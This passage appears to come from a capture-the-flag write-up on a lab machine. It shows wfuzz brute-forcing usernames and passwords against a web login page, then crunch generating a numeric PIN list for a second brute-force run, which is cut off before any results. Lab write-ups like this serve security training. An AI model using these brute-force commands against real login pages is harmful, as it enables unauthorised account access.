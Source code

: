 We collect a list of usernames from across the exposed web-pages and in the site and just run a quick test with a dummy PIN value.  The hope is that some difference in response will be yielded on incorrect PIN but correct credentials.

```
root@kali:~/panther# cat usernames.txt 
pinksec
pinkadmin
pinksecmanagement
pinky
dpink
```
  
```  
root@kali:~/panther# wfuzz -c -z file,./usernames.txt -z file,./pwds.db -d 'user=FUZZ&pass=FUZ2Z&pin=12345' --hh 45 http://192.168.0.74:8080/login.php  
  
Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.  
  
********************************************************  
* Wfuzz 2.2.9 - The Web Fuzzer *  
********************************************************  
  
Target: http://192.168.0.74:8080/login.php  
Total requests: 90  
  
==================================================================  
ID Response Lines Word Chars Payload  
==================================================================  
  
000032: C=200 0 L 6 W 41 Ch "pinkadmin - AaPinkSecaAdmin4467"  
  
Total time: 0.399415  
Processed Requests: 90  
Filtered Requests: 89  
Requests/sec.: 225.3289  
```  
Lo and Behold, we have credentials!  Now we just need to brute-force the PIN. 
```  
root@kali:~/panther# crunch 5 5 -f /usr/share/crunch/charset.lst numeric -o pin.txt  
Crunch will now generate the following amount of data: 600000 bytes  
0 MB  
0 GB  
0 TB  
0 PB  
Crunch will now generate the following number of lines: 100000  
  
crunch: 100% completed generating output  
root@kali:~/panther# wfuzz -c -z file,./pin.txt -d 'user=pinkadmin&pass=AaPinkSecaAdmin4467&pin=FUZZ' --hh 45,41 http://192.168.0.74:8080/login.php  
  
Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.  
  
********************************************************  
* Wfuzz 2.2.9 - The Web Fuzzer *  
********************************************************  
  
Target: http://192.168.0.74:8080/login.php  
Total requests: 100000  
  
==================================================================  
ID Response Lines Word Chars Payload  
==================================================================  
```